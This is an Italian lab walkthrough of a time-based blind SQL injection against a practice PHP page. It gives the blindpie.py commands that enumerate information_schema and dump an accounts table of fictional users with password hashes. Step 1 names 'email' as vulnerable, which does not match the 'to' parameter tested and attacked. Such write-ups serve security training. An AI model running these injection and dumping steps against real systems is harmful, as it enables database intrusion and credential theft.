 # Time-Based Blind Escaped

1. Esamino i parametri della richiesta POST:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
    ```

    Lo script rileva che `email` sia vulnerabile.

2. Ottengo le prime righe di `information_schema.tables`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T10 attack --table information_schema.tables --column table_name --param to --row 0 --rows 120
    ```

    Tra le righe compare la tabella `accounts`.

3. Ottengo le prime righe di `information_schema.columns`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T5 attack --table information_schema.columns --column "concat(table_name, ' ', column_name)" --param to --row 0 --rows 50
    ```

    Ogni riga ritornata dallo script è una coppia `(table_name, column_name)`. Cercando le righe in cui compare la tabella `accounts` si determinano i nomi delle sue colonne.

4.  Estraggo tutti i dati della `accounts`:

    ```
    $ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post -M0 -T10 attack --table accounts --column "concat(id, ' ', first_name, ' ', last_name, ' ', email, ' ', password)" --param to --row 0 --rows 10
    ```

    Output:

    ```
    ...
    > RESULTS:
    1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
    2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
    3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
    4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
    ...
    ```
